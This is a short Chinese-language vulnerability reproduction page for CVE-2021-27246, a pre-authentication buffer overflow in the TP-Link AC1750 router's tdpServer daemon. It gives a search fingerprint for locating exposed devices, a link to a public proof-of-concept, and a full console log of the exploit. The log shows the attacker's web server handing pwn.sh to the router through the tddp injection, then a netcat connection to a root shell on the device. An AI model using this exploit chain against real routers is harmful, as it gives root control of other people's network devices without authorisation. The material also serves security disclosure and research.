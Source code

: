 # 

# TP-Link AC1750 预认证远程代码执行漏洞CVE-2021-27246

## 漏洞描述

在TP-Link AC1750的tdpServer守护程序中存在漏洞，没有检查json数据的大小，导致了缓冲区溢出，通过缓冲区溢出，可以导致代码执行。

参考阅读：

- https://www.synacktiv.com/publications/pwn2own-tokyo-2020-defeating-the-tp-link-ac1750.html

## 网络测绘

```
app="TP_LINK-AC1750"
```

## 漏洞复现

- poc：https://github.com/synacktiv/CVE-2021-27246_Pwn2Own2020

```
$ bash exploit.sh 
[+] Launching web server for distribution of pwn.sh
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
INFO:tdpwn:Associating 49 onemesh clients...
INFO:tdpwn:Done!
    And wait for 80 seconds...
80 seconds left...
70 seconds left...
60 seconds left...
50 seconds left...
40 seconds left...
30 seconds left...
20 seconds left...
10 seconds left...
[+] Trying to exploit the tddp injection
INFO:tdp:Preparing tddpv1_configset payload
INFO:tdp:Sending payload

[+] Trying the root shell (Low probability of success...)
nc -v 192.168.0.1 12345
nc: connect to 192.168.0.1 port 12345 (tcp) failed: Connection refused

[ ] If shell hasn't succeed, don't worry, we retry 

INFO:tdpwn:Associating 49 onemesh clients...
INFO:tdpwn:Done!
    And wait for 80 seconds...
80 seconds left...
70 seconds left...
60 seconds left...
50 seconds left...
40 seconds left...
30 seconds left...
20 seconds left...
10 seconds left...
[+] Trying to exploit the tddp injection
INFO:tdp:Preparing tddpv1_configset payload
INFO:tdp:Sending payload
192.168.0.1 - - [30/Nov/2020 12:10:59] "GET /pwn.sh HTTP/1.1" 200 -

[+] Trying the root shell (High probability of success...)
nc -v 192.168.0.1 12345
Connection to 192.168.0.1 12345 port [tcp/*] succeeded!
uname -a
Linux ArcherA7v5 3.3.8 #1 Mon Sep 14 19:52:46 CST 2020 mips GNU/Linux
id
uid=0(root) gid=0(root)
^C[-] Stopping Webserver, now
Terminated
```


